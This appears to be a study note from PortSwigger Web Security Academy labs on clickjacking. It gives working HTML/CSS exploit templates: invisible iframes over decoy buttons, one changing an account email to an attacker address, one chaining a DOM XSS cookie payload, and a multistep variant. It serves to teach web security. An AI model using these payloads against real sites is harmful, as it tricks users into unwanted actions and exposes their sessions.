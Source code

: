 # ClickJacking (UI redressing)

![ClickJacking.png](ClickJacking%20(UI%20redressing)%205277059bf75746e0827956abf6aeb714/ClickJacking.png)

## click-Jacking

- it is an interface based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
- `Example:`
- A web user access a decoy website (i.e link provided by `phishing mail`) and click on a button to win a prize.
- unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this result in `payment to the attacker or any thing like purchasing subscription to attacker etc`.
- this is example of `clickjacking attack`
- the technique is depend on the `actionable and invisible webpage`
- `Note:` this attack is different from the `CSRF` because in `CSRF we do unintentionable action without user's knowledge and intraction` while in `Clickjacking` user need to click button which trigger hidden iframe or link to do certain tasks.
- Protection against CSRF attacks is often provided by the use of a `CSRF token` a session-specific, single-use number or nonce. `Clickjacking` attacks are not mitigated by the `CSRF token` as a target session is established with content loaded from an authentic website and with all requests happening on-domain. `CSRF tokens` are placed into requests and passed to the server as part of a normally behaved session. The difference compared to a normal user session is that the process occurs within a hidden iframe.

# how to construct basic clickjacking attack

- it use CSS to create and manipulate layers
- `Example:`

```
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="<https://vulnerable-website.com>">
  </iframe>
</body>

```

adjust buttons to the iframe button and send to victim

another exploit

```
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.000001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 450px;
       left: 80px;
       z-index: 1;
   }
</style>
<div>Click</div>
<iframe sandbox="allow-forms" src="<https://ac541f881fc916be80be6fa300d3000a.web-security-academy.net/my-account/?email=hacker@attacker-website.com>"></iframe>

```

## Combining Clickjacking with DOM XSS attack

exploit

```
<style>
   iframe {
       position:relative;
       width:700;
       height: 500;
       opacity: 0.00001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:410;
       left:80;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe
src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

```

## Multistep Clickjacking

- Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.

```
<style>
   iframe {
       position:relative;
       width:700px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:450px;
       left:55px;
       z-index: 1;
   }
   .secondClick {
       top:535px;
       left:55px;
   }
</style>
<div class="firstClick">Click me First</div>
<div class="secondClick">Click me next</div>
<iframe src="<https://ac7a1fcf1f6afc5080da19c4004e0043.web-security-academy.net/my-account/>"></iframe>

```

## Protecting Against ClickJacking

### [portswigger-web-security](https://portswigger.net/web-security/clickjacking)